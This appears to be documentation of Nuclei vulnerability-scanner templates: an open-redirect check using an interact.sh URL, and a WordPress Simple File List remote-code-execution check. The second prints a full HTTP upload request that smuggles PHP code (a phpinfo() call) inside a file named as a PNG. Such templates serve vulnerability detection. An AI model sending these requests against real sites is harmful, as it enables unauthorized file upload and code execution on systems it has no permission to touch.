 - Method - GET

### URL

- {{BaseURL}}/?wp_nlm=confirmation&appurl=aHR0cDovL2ludGVyYWN0LnNo

### Matchers

**Type - regex**

- part - header
- regex
  1. (?m)^(?:Location\s*?:\s*?)(?:https?:\/\/|\/\/|\/\\\\|\/\\)?(?:[a-zA-Z0-9\-_\.@]_)interact\.sh\/?(\/|[^.]._)?$

---

# WordPress SimpleFilelist - Remote Code Execution

## Description

- Simple File List WordPress plugin was found to be vulnerable to an unauthenticated arbitrary file upload leading to remote code execution. The Python exploit first uploads a file containing PHP code but with a png image file extension. A second request is sent to move (rename) the png file to a PHP file.

- severity - critical
- tags - wpscan,wordpress,wp-plugin,rce,intrusive,fileupload,python

## Requests

### Step - 1

```
POST /wp-content/plugins/simple-file-list/ee-upload-engine.php HTTP/1.1
Host: {{Hostname}}
Accept: */*
Content-Type: multipart/form-data; boundary=6985fa39c0698d07f6d418b37388e1b2

--6985fa39c0698d07f6d418b37388e1b2
Content-Disposition: form-data; name="eeSFL_ID"

1
--6985fa39c0698d07f6d418b37388e1b2
Content-Disposition: form-data; name="eeSFL_FileUploadDir"

/wp-content/uploads/simple-file-list/
--6985fa39c0698d07f6d418b37388e1b2
Content-Disposition: form-data; name="eeSFL_Timestamp"

1587258885
--6985fa39c0698d07f6d418b37388e1b2
Content-Disposition: form-data; name="eeSFL_Token"

ba288252629a5399759b6fde1e205bc2
--6985fa39c0698d07f6d418b37388e1b2
Content-Disposition: form-data; name="file"; filename="nuclei.png"
Content-Type: image/png

<?php echo "Nuclei - Open source project (github.com/projectdiscovery/nuclei)"; phpinfo(); ?>
--6985fa39c0698d07f6d418b37388e1b2--

```
